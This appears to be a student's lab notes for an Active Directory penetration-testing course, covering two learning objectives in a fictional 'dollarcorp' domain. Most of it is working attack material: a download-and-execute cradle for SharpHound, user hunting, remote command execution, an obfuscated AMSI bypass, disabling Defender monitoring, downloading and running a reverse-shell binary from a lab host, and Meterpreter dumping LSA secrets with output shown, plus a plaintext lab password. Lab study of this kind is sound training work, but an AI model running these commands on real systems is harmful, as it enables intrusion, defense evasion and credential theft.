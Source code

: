 # Learning Objective 6

• Setup BloodHound and identify a machine where studentx has local administrative access. 
	- Download SharpHound.ps1 Ingestor
		- `iex (New-Object Net.WebClient).DownloadString('http://172.16.99.27/SharpHound.ps1')`
	- Enumerate Domain: `Invoke-BloodHound -CollectionMethod All`

# Learning Objective 7

• Domain user on one of the machines has access to a server where a domain admin is logged in. Identify:
– The domain user
	- `Invoke-UserHunter` -> `svcadmin`
– The server where the domain admin is logged in.
	- `Invoke-UserHunter` -> `dcorp-mgmt.dollarcorp.moneycorp.local`

• Escalate privileges to Domain Admin
– Using the method above.
	- From Jenkins: `Invoke-Command -ScriptBlock {whoami;hostname} -ComputerName dcorp-mgmt.dollarcorp.moneycorp.local` -> `
```
dcorp\ciadmin 
dcorp-mgmt
```
– Using derivative local admin
```powershell
evil-winrm -i 172.16.4.44 -u ciadmin -p *ContinuousIntrusion123

C:\Users\ciadmin\Documents> sET-ItEM ( 'V'+'aR' +  'IA' + 'blE:1q2'  + 'uZx'  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    GeT-VariaBle  ( "1Q2U"  +"zX"  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System'  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f'amsi','d','InitFaile'  ),(  "{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )

PS C:\Users\ciadmin\Documents> Set-MpPreference -DisableRealtimeMonitoring $true

wget http://172.16.99.27/shell443.exe -o shell443.exe

.\shell443.exe

meterpreter > lsa_dump_secrets
[+] Running as SYSTEM
[*] Dumping LSA secrets
Domain : DCORP-MGMT
SysKey : df4126b764b7b0f0821ff7d3835a9646

Local name : DCORP-MGMT ( S-1-5-21-2765387493-2672277587-2490794481 )
Domain name : dcorp ( S-1-5-21-1874506631-3219952063-538504511 )
Domain FQDN : dollarcorp.moneycorp.local

Policy subsystem is : 1.14
LSA Key(s) : 1, default {f50da686-c482-2239-b478-953927792efc}
  [00] {f50da686-c482-2239-b478-953927792efc} 25d4763a1137fe6c593ad2e437ba5f8690b30032be1ed129b8a178b614f1fb56

Secret  : $MACHINE.ACC
```